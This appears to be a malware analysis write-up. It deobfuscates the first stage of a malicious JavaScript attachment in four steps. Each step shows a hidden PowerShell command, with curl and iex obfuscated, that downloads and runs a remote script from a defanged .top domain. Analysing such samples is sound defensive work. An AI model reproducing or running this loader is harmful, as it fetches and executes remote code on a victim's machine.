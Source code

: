 # Stage 1

{% stepper %}
{% step %}
### Content of attachment

```javascript
IHost.Sleep("13000");

IWshShell3.Run("powershell -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl');
 mint -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"");
```


{% endstep %}

{% step %}
###

```batch
"powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl');
 mint -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"
```


{% endstep %}

{% step %}
###

```powershell
Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl');
 mint -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')
```


{% endstep %}

{% step %}
### Executes remote powershell script

```powershell
curl -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | iex
```
{% endstep %}
{% endstepper %}

